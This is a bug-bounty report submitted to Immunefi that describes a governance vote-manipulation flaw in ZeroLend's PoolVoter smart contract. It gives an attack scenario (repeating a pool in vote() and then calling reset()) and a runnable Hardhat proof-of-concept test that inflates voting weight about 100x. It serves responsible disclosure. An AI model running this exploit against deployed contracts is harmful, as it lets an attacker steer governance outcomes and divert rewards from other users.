 
# Votes manipulation in PoolVoter

Submitted on Mon Mar 04 2024 12:33:40 GMT-0400 (Atlantic Standard Time) by @DuckAstronomer for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29012

Report type: Smart Contract

Report severity: High

Target: https://github.com/zerolend/governance

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Vulnerability Details
**Affected asset**: https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol

`PoolVoter` contract allows to vote for the Gauge for anyone who has voting power by staking in the `VestedZeroNFT`.

The `vote()` function allows to specify pools associated with gauges and their respective weights.

```
function vote(
    address[] calldata _poolVote,
    uint256[] calldata _weights
) external {}
```

However, a crucial flaw exists as the function fails to check for repeated pools in the `_poolVote` array. Moreover, it only considers the last weight if the same pool is utilized, as seen here - https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L117.

```
if (_gauge != address(0x0)) {
    _updateFor(_gauge);
    _usedWeight += _poolWeight;
    totalWeight += _poolWeight;
    weights[_pool] += _poolWeight;
    poolVote[_who].push(_pool);
    votes[_who][_pool] = _poolWeight;  // !!!
}
```

When a voter calls the `reset()` function to retrieve their voting power back and vote for another gauge, only the last weight is taken into account in case of repeated pool voting.

As a result, the voter recovers the full voting power. Yet `totalWeight` and `weights[_pool]` are decreased only by the last element from the `_weights` array passed to the `vote()`.

```
uint256 _votes = votes[_who][_pool];

if (_votes > 0) {
    _updateFor(gauges[_pool]);
    totalWeight -= _votes;
    weights[_pool] -= _votes;
    votes[_who][_pool] = 0;
}
```

**Attack scenario**:
1. The attacker possesses a voting power of `19.01 ether`.
2. They invoke `vote()` to vote for the same gauge with the following parameters:
    - _poolVote = [gauge, gauge]
    - _weights = [19 ether, 1e8]
3.  Further they call `reset()`, but `weights[_pool]` and `totalWeight` are only decreased by `1e8`.
4. The attacker retains the full `19.01 ether` voting power. But `weights[_pool]` and `totalWeight` are now increased by `19 ether`.
5. By repeating steps 2-3 in a loop many times, the attacker can consolidate the majority of votes for their chosen gauge, and all rewards will be distributed to it.
6. By repeating steps 2-3 for **100** times, it's tantamount to having `1900 ether` voting power.
        
## Proof of concept
## Proof of Concept
To run the Poc put it's code to the `governance-main/test/PoolVoter.poc.ts` file, generate random private key, and issue the following command:

```
WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/PoolVoter.poc.ts --config hardhat.config.ts --network hardhat
```

```
import { expect } from "chai";
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import {
  GaugeIncentiveController,
  OmnichainStaking,
  Pool,
  PoolVoter,
  StakingBonus,
  TestnetERC20,
  VestedZeroNFT,
  ZeroLend,
} from "../typechain-types";
import { e18 } from "./fixtures/utils";
import { deployVoters } from "./fixtures/voters";

// Put inside governance-main/test/PoolVoter.poc.ts

// Run as:
// WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/PoolVoter.poc.ts --config hardhat.config.ts --network hardhat

describe.only("PoolVoter Immunefi Boost", () => {
  let ant: SignerWithAddress;
  let now: number;
  let omniStaking: OmnichainStaking;
  let poolVoter: PoolVoter;
  let reserve: TestnetERC20;
  let stakingBonus: StakingBonus;
  let vest: VestedZeroNFT;
  let pool: Pool;
  let aTokenGauge: GaugeIncentiveController;
  let zero: ZeroLend;

  beforeEach(async () => {
    const deployment = await loadFixture(deployVoters);
    ant = deployment.ant;
    now = Math.floor(Date.now() / 1000);
    omniStaking = deployment.governance.omnichainStaking;
    poolVoter = deployment.poolVoter;
    reserve = deployment.lending.erc20;
    stakingBonus = deployment.governance.stakingBonus;
    vest = deployment.governance.vestedZeroNFT;
    zero = deployment.governance.zero;
    pool = deployment.lending.pool;
    aTokenGauge = deployment.aTokenGauge;

    // deployer should be able to mint a nft for another user
    await vest.mint(
      ant.address,
      e18 * 20n, // 20 ZERO linear vesting
      0, // 0 ZERO upfront
      1000, // linear duration - 1000 seconds
      0, // cliff duration - 0 seconds
      now + 1000, // unlock date
      true, // penalty -> false
      0
    );

    // stake nft on behalf of the ant
    await vest
      .connect(ant)
      ["safeTransferFrom(address,address,uint256)"](
        ant.address,
        stakingBonus.target,
        1
      );

    // there should now be some voting power for the user to play with
    // ant voting power is ~ 19 ether
    expect(await omniStaking.balanceOf(ant.address)).lessThan(e18 * 20n);
  });

  it("ant fraudulently increases his voting power by 100x", async function () {
    expect(await poolVoter.totalWeight()).eq(0);
    for (let i=0; i < 101; i++) {
      // Vote for the same pool 2 times but with different weights
      // 19 ether and 1e8 wei
      await poolVoter.connect(ant).vote(
        [reserve.target, reserve.target],
        [19n*e18, 1e8]
      );
      // Reset() call resets only 1e8 wei votes.
      // However, 19 ether votes remains untouched in totalWeight().
      // ant can has voting power of 19 ether again and again.
      // https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L67
      // https://github.com/zerolend/governance/blob/main/contracts/voter/PoolVoter.sol#L61-L63
      await poolVoter.connect(ant).reset();
    }
    expect(await poolVoter.totalWeight()).greaterThan(e18 * 19n * 100n);
  });
});
```